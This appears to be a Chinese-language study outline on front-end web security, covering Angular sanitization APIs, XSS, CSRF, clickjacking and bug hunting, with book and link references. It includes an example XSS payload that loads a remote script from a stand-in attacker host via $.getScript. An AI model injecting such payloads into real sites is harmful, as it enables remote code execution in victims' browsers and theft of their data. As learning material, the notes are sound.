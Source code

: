 ## 大纲
* 推荐书籍
* 目前前端项目
* XSS攻击
* CXRF攻击
* 界面操作劫持
* 漏洞挖掘

### 书籍

1. [Web前端黑客技术揭秘](https://item.jd.com/12878817351.html) [Web前端黑客技术揭秘(视频)](https://ke.qq.com/course/133640)
2. [白帽子讲Web安全](https://item.jd.com/11483966.html)
3. [白帽子讲Web扫描](https://item.jd.com/15503446687.html)


### 目前前端项目

目前是基于Angular的工程。使用webpack对js代码进行加密，混淆，中文Base64处理。

1. [Angular安全](https://angular.cn/guide/security)
    * bypassSecurityTrustHtml
    * bypassSecurityTrustScript
    * bypassSecurityTrustStyle
    * bypassSecurityTrustUrl
    * bypassSecurityTrustResourceUrl
2. [Angular安全：xsrf-防护](https://angular.cn/guide/http#安全：xsrf-防护)
2. [Angular安全：xssi-防护](https://angular.cn/guide/security#xssi)
3. [Angularjs xss防护：$sce服务](https://docs.angularjs.org/api/ng/service/$sce#use-the-latest-angularjs-possible)
    * trustAsHtml(value)
    * trustAsCss(value)
    * trustAsUrl(value)
    * trustAsResourceUrl(value)
    * trustAsJs(value)

### XSS攻击
[百度百科](https://baike.baidu.com/item/XSS%E6%94%BB%E5%87%BB/954065?fr=aladdin)
主要是注入脚本，如论坛里面用户输入`<script>alert();</script>`，页面回显的时候如果没有处理js脚本，就可能造成攻击。angular的$sce就是用来处理XSS攻击的。`<script>$.getScript('http://www.hack.com/index.js');</script>`

1. HTML中代码注入技巧(196页)
    * 标签注入
    * 属性注入
    * HTML事件
2. CSS代码注入技巧(209页)
    * CSS资源类属性
    * IE独有的expression
3. 更多经典的混淆CheckList(221页)
4. 例子
    * 浏览器记住密码(235)
    *

**能被我们利用插入XSS脚本的地方只有css资源类属性值和@import规则，以及IE浏览器下执行的属性值expression**

### CXRF攻击
[栗子](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

### 界面操作劫持
[栗子](http://blog.csdn.net/c2iekqea/article/details/55684701)


### 漏洞挖掘

1. csrf漏洞挖掘

    ![csrf](./img/csrf.png)

2. 界面操作劫持漏洞挖掘

    ![csrf](./img/2017-11-15_114735.png)
